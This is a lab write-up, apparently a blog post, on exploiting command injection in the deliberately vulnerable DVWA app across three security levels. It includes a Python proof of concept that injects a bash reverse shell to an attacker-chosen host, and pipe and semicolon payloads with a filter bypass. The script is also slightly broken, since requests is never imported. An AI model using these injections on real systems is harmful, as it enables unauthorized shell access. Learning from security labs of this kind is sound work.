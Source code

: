 ```yaml
---
title: DVWA Command Injection
# author: Gauranga
date: 2024-03-06 04:45:00 +00:00
# categories: [Writing]
tags: [cybersecurity, DVWA, command injection, web security, vulnerability, exploitation, proof of concept]
pin: true
math: true
mermaid: true
image: https://cdn.acunetix.com/wp-content/uploads/2019/06/11110845/command-injection-910x478.png
#   path: /commons/devices-mockup.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


## Low Level

- **Functionality Check**: Application accepts input in `ip` parameter, directly passed to `shell_exec()`.
- **Injection**: Concatenated `;ls -la` as payload.
- **Vulnerability**: Lack of input validation allows command execution.

![](/cj/Untitled.png)

```python
import sys

url = "<http://127.0.0.1:42001/vulnerabilities/exec/>"

headers = {
    "Cookie": "PHPSESSID=<id>; security=<>"
}

def main():
    try:
        ip = f"bash -c 'bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1'"
        data = {
            "ip": ";" + ip,
            "Submit": "Submit",
        }
        response = requests.post(url, headers=headers, data=data)

        if "www-data" in response.text:
            print("success")
        else:
            print("failed")
    except Exception as e:
        print("An error occurred:", e)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 poc.py <lhort> <lport>")
        sys.exit(1)
    else:
        main()
```

- The script serves as a Proof of Concept (PoC) to exploit a command injection vulnerability in a web application.
- It demonstrates how an attacker can execute arbitrary commands on the target system through the vulnerability.
- By injecting specially crafted commands, the attacker gains unauthorized access to the system.
- This unauthorized access can lead to further exploitation, such as data theft, system compromise, or launching other attacks.
- It's crucial to emphasize that exploiting vulnerabilities without proper authorization is both illegal and unethical.

---

## Medium Level

- **Functionality Check**: Application continues to execute OS commands.
- **Input Validation**: Concatenated `|` as payload.
- **Bypass**: Used `|ls -la` payload for successful execution.

![](/cj/Untitled 1.png)

---

## High Level

- **Functionality Check**: Application still executes OS commands.
- **Tightened Validation**: Additional characters like `&`, ``, `$`, `(` replaced with space.
- **Bypass**: Identified space after `|` character, used `127.0.0.1|ls -ls` payload for success.

![](/cj/Untitled 2.png)

---